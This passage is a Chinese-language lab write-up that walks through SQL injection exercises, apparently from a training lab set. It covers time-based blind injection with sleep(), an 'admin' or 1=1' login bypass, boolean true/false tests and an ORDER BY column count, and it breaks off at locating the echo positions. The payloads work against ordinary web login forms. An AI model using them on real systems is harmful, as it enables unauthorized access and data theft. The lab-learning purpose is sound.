 

## 实验十	基于时间的双引号盲注

发现当输入`?id=1" and sleep(5) %23 `时触发时间注入，同第九题，只要把`?id=1'`替换成`?id=1"`即可



## 实验十一	基于错误的PSOT单引号字符

常见post类型的后台sql语句

```
SELECT username, password FROM 用户表 WHERE username='input' and password='input' ;
SELECT username, password FROM 用户表 WHERE username='input' and password='input' ;
SELECT username, password FROM 用户表 WHERE username="input" and password='input' ;
```

构造poc（万能密码）

```
admin ' or 1=1 --+
```

用户名和密码输入admin,admin，发现有回显：

![image-20211207195932875](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020057389.png)

抓包可以发现post的uname和passwd：

![image-20211207200210100](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020057341.png)

尝试用户名输入`admin'`，密码随意，产生报错`use near '1' LIMIT 0,1' at line 1`猜测是字符型POST：

![image-20211207200403039](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020057153.png)

输入`uname=admin'or'1'='1`有回显

![image-20211207201308880](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020057556.png)

输入`uname=admin'and'1'='2`无回显，证明猜测正确。

![image-20211207201357976](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020057117.png)



### 1、手工注入

因为有回显，所以可以采取union联合查询：

#### 用 order by 判断字段数

`uname=admin' order by 3 #`，回显报错，但是输入2正常回显，说明共有2个字段。

![image-20211207201755861](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020057142.png)

#### 确定回显位置
